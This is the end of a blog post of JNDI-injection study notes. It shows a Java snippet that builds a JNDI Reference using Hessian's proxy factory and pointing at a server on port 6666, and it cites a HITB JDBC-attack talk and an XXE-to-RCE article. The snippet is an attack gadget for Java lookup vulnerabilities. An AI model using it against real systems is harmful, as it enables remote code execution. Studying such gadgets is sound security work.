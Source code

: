 **hessian**  
```java  
LookupRef ref = new LookupRef(&#34;java.lang.String&#34;,&#34;look&#34;);  
ref.add(new StringRefAddr(&#34;factory&#34;, &#34;com.caucho.hessian.client.HessianProxyFactory&#34;));  
//com.caucho.burlap.client.BurlapProxyFactory  
ref.add(new StringRefAddr(&#34;type&#34;, &#34;java.lang.AutoCloseable&#34;));  
ref.add(new StringRefAddr(&#34;url&#34;, &#34;http://127.0.0.1:6666/&#34;));  
```  
## Reference  
https://conference.hitb.org/hitbsecconf2021sin/sessions/make-jdbc-attacks-brilliant-again/  
https://tttang.com/archive/1405/#toc_0x02-xxe-rce  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/jndi%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%952/  

